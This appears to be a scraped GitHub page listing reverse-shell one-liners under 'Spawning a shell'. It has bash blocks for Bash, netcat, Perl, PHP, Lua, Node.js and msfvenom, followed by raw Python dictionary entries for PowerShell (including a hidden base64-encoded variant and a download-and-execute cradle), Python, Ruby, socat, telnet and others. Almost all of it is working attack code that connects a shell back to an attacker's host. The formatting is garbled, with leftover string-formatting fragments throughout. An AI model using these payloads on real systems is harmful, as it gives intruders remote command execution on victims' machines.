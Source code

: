 # Spawning a shell

```bash
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f asp > revshell.asp' % (ipaddr, port),
```

```bash
# AWK
awk \'BEGIN {s = "/inet/tcp/0/%s/%d"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}\' /dev/null' % (ipaddr, port),
```

```bash
# Bash - Option 1
bash -i >& /dev/tcp/%s/%d 0>&1' % (ipaddr, port),
```

```bash
# Bash - Option 2
0<&196;exec 196<>/dev/tcp/%s/%d; bash <&196 >&196 2>&196' % (ipaddr, port),
```

```bash
# Bash - Option 3
exec 5<> /dev/tcp/%s/%d; cat <&5 | while read line; do $line 2>&5>&5; done' % (ipaddr, port),
```

```bash
# Java
r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/%s/%d;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();' % (ipaddr, port),
```

```bash
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=%s LPORT=%d -f raw > revshell.jsp' % (ipaddr, port),
```

```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f elf > revshell' % (ipaddr, port),
```

```bash
# Lua
lua5.1 -e \'local host,port = \"%s\",%d local socket = require(\"socket\") local tcp = socket.tcp() local io = require(\"io\") tcp:connect(host,port); while true do local cmd,status,partial = tcp:receive() local f = io.popen(cmd,'r') local s = f:read(\"*a\") f:close() tcp:send(s) if status == \"closed\" then break end end tcp:close()\'' % (ipaddr, port),
```

```bash
# Netcat 
nc -e /bin/sh %s %d' % (ipaddr, port),
```

```bash
# Netcat -c
nc -c /bin/sh %s %d' % (ipaddr, port),
```

```bash
# Netcat mkfifo
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %d >/tmp/f' % (ipaddr, port),
```       

```bash
# Netcat mknod
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc %s %d 1>/tmp/l' % (ipaddr, port),
```

```bash
# Netcat pipe
/bin/sh | nc %s %d' % (ipaddr, port),
```       
       
```bash
# Ncat
ncat %s %d -e /bin/sh' % (ipaddr, port),
```

```bash
# Nodejs
(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(%d,"%s",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();' % (port, ipaddr),
```

```bash
# OSX
msfvenom -p osx/x86/shell_reverse_tcp LHOST=%s LPORT=%d -f macho > revshell.macho' % (ipaddr, port),
```

```bash
# Perl - Option 1
perl -e \'use Socket;$i="%s";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' % (ipaddr, port),
```       

```bash
# Perl - Option 2
perl -MIO -e \'$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
```

```bash
# Perl windows
perl -MIO -e \'$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
```        

```bash
# PHP
php -r \'$sock=fsockopen("%s",%d);exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
```

```bash
# PHP
php -r \'$s=fsockopen("%s",%d);shell_exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
```

```bash
# PHP
php -r \'$s=fsockopen("%s",%d);`/bin/sh -i <&3 >&3 2>&3`;\'' % (ipaddr, port),
```

```bash
# PHP-4
php -r \'$s=fsockopen("%s",%d);system("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
```

```bash
# PHP-5
php -r \'$s=fsockopen("%s",%d);popen("/bin/sh -i <&3 >&3 2>&3", "r");\'' % (ipaddr, port),
```

'ps-tcp':'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient(\"%s\",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port),
        'ps-iex':'powershell IEX (New-Object Net.WebClient).DownloadString("http://%s:%d/revshell.ps1") \n\nMake a revshell.ps1 file and put it on your server!' % (ipaddr, port),
        'ps-b64':'powershell -e '+ b64encode(('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port)).encode('utf16')[2:]).decode(),
        'python':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'' % (ipaddr, port),
        'python-2':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'' % (ipaddr, port),
        'ruby':'ruby -rsocket -e\'f=TCPSocket.open(\"%s\",%d).to_i;exec sprintf(\"/bin/sh -i <&3 >&3 2>&3\",f,f,f)\'' % (ipaddr, port),
        'ruby-2':'ruby -rsocket -e \'exit if fork;c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'ruby-windows':'ruby -rsocket -e \'c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'socat':'socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:%s:%d \n\n[+] Catch incoming shell with:\n\nsocat file:`tty`,raw,echo=0 tcp-listen:%d' % (ipaddr, port, port),
        'tclsh':'echo \'set s [socket %s %d];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;\' | tclsh' % (ipaddr, port),
        'telnet':'rm -f /tmp/p; mknod /tmp/p p && telnet %s %d 0/tmp/p' % (ipaddr, port),
        'telnet-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet %s %d > /tmp/f' % (ipaddr, port),
        'war':'msfvenom -p java/shell_reverse_tcp LHOST=%s LPORT=%d -f war -o revshell.war' % (ipaddr, port),
        'win-bin':'msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f exe > revshell.exe' % (ipaddr, port),
        'xterm':'xterm -display %s:1 \n\n[+] Connect to your shell with:\n\nXnest :1 or xhost +targetip' % (ipaddr)
    }

